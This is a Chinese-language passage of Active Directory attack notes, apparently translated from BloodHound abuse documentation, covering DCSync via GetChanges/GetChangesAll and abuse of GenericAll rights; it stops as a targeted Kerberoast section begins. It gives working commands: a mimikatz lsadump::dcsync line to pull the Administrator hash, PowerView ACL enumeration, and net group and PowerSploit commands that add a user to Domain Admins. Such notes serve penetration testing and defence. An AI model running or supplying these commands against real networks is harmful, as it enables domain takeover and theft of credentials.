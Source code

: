 这两种权限的组合赋予主体执行 DCSync 攻击的能力。

+ 滥用信息

凭借 BloodHound 中的 GetChanges 和 GetChangesAll 权限，您可以执行 dcsync 攻击，以使用 mimikatz 获取任意主体的密码哈希：

```
lsadump::dcsync /domain:testlab.local /user:Administrator
```

您还可以执行更复杂的 ExtraSids 攻击来跳跃域信任。有关这方面的信息，请参阅引用选项卡中 Harmj0y 的博客文章。

## GenericAll

> WriteProperty
>
> GenericAll
>
> self

这也称为完全控制。此特权允许受托人随心所欲地操纵目标对象。

+ 滥用信息
  
  + **针对组 - 使用 GenericAll Over a Group：**
  
    让我们看看`Domain admins`组是否有弱权限。首先，让我们得到它`distinguishedName`：
  
    `Get-NetGroup "domain admins" -FullData`
  
    当前会话的用户(spotless)对`domain admins`组有GenericAll权限
  
    ` Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local"}`
  
    实际上，这允许我们将自己（用户`spotless`）添加到`Domain Admin`组中：
  
    `net group "domain admins" spotless /add /domain`
  
    使用 Active Directory 或 PowerSploit 模块也可以实现相同的效果：
  
    ```
    //with active directory module
    Add-ADGroupMember -Identity "domain admins" -Members spotless
    
    //with Powersploit
    Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
    ```
  
    

对组的完全控制允许您直接修改该组的组成员身份。有关该场景中的完整滥用信息，请参阅 AddMembers 边缘下的滥用信息部分

  + ​    **针对用户  - 使用 GenericAll 覆盖用户：**

> 查看当前会话的用户(spotless)是否对`delegate`有GenericAll权限	
```
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}  
```

**有针对性的 Kerberoast 有** 针对性的 kerberoast 攻击可以使用 PowerView 的 Set-DomainObject 以及 Get-DomainSPNTicket 来执行。
